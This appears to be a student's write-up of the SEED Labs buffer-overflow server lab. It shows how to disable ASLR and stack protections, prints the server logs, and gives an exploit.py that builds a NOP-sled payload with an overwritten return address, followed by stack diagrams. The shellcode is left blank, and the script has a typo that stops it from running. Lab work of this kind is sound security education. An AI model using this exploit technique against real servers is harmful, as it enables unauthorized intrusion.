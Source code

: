 # Buffer Overflow (Server Version)

## Lab Environment Setup
- SEED Ubuntu 20.04 VM
- Turn off countermeasures
    - `sudo /sbin/sysctl -w kernel.randomize_va_space=0`
    - important, if the randomization is not turned off, the frame pointer and buffer's address will be different each time we execute the program

- Compilation
    - `gcc -DBUF_SIZE=$(L1) -o stack -z execstack -fno-stack-protector stack.c`
    - `-z execstack` Turn off the non-executable stack protection
    - `-fno-stack-protector stack.c` Turn off the StackGuard

## Task 1: Get Familiar with the Shellcode
- The goal of buffer-overflow attacks is to inject malicious code into the program.
- Shellcode is widely used in most code-injection attacks.
- **Shellcode**: a piece of code that launches a shell, and is usually written in assembly language.
- The shellcode is provided, modify it to run arbitrary command, but ensure not to change the length of the argument string. For more information about shellcode, refer to the **Shellcode Development Lab**

## Task 2: Level-1 Attack
- Target Server: `10.9.0.5:9090`
- Send a benign message to the server:
    ```
    $ echo hello | nc 10.9.0.5 9090
    (Press ctrl+C)
    ```
    ```
    $ docker-compose up
    ...
    server-1-10.9.0.5 | Got a connection from 10.9.0.1
    server-1-10.9.0.5 | Starting stack
    server-1-10.9.0.5 | Input size: 6
    server-1-10.9.0.5 | Frame Pointer (ebp) inside bof(): 0xffffd318
    server-1-10.9.0.5 | Buffer's address inside bof():    0xffffd2a8
    server-1-10.9.0.5 | ==== Returned Properly ====
    ```

- Increase the input length, until `bof()` can't return properly
    - in my case, `bof()` could return properly until input size was less than 98
    ```
    server-1-10.9.0.5 | Got a connection from 10.9.0.1
    server-1-10.9.0.5 | Starting stack
    server-1-10.9.0.5 | Input size: 98
    server-1-10.9.0.5 | Frame Pointer (ebp) inside bof(): 0xffffd318
    server-1-10.9.0.5 | Buffer's address inside bof():    0xffffd2a8
    ```

- Exploit
    - use `exploit.py` to generate `badfile`, which contains the payload
    - [NOP, no-op, NOOP](https://en.wikipedia.org/wiki/NOP_(code))
    - `exploit.py`
        ```
        #!/usr/bin/python3
        import sys

        shellcode = (
            "" # Need to change

        ).encode('latin-1')

        # Fill the content with NOP's
        content = bytearray(0x90 for i in range(517))

        #############################################
        ebp      = 0xffffd318
        buf_addr = 0xffffd2a8
        delta    = ebp - buf_addr

        # Put the shellcode in the final part of the payload
        start = 517 - len(shellcode)
        content[start: start + len(shellcode)] = shellccode

        # Return to somewhere before the shellcode
        # save it somewhere in the payload
        ret = ebp + 10     # ebp + x, just ensure that the return address is after (ebp + 8), but before the shellcode
        offset = delta + 4 # Put ret (the new return address) next to ebp

        # User 4 for 32-bit address, and 8 for 64-bit address
        content[offset:offset+4] = (ret).to_bytes(4, byteorder='little')

        #############################################
        with open('badfile', 'wb') as f:
            f.write(content)
        ```

    - Original Stack
        ```
        High Memory Addresses
        |          +---------------------+
        |          |        ...          |
        |          +---------------------+  <-- 0xffffd318 + 8
        |          |    Return Address   |
        |          +---------------------+  <-- 0xffffd318 + 4
        |          |   Previous %ebp     |
        |          +---------------------+  <-- 0xffffd318 (ebp)
        |          |        ...          |
        |          |---------------------|
        |          |                     |
        |          |                     |
        |          |       Buffer        |
        |          |                     |
        |          |                     |
        |          |---------------------|  <-- 0xffffd2a8 (&buffer)
        |          |        ...          |
        |          +---------------------+
        |          |    Unused Space     |
        |          +---------------------+
        |
        Low Memory Addresses
        ```
    - Stack After Buffer-Overflow
        ```
        High Memory Addresses
        |          +---------------------+ 
        |          |                     |
        |          |     Shellcode       |
        |          |                     |
        |          +---------------------+
        |          |        NOPs         |
        |          |---------------------|  <-- 0xffffd318 + 10
        |          |        NOPs         |
        |          +---------------------+  <-- 0xffffd318 + 8
        |          |   0xffffd318 + 10   |
        |          | (New Return Address)|
        |          +---------------------+  <-- 0xffffd318 + 4
        |          |        NOPs         |
        |          |---------------------|  <-- 0xffffd318 (ebp)
        |          |        NOPs         |
        |          |---------------------|  <-- 0xffffd2a8 (&buffer)
        |          |        ...          |
        |          +---------------------+
        |          |    Unused Space     |
        |          +---------------------+
        |
        Low Memory Addresses
        ```
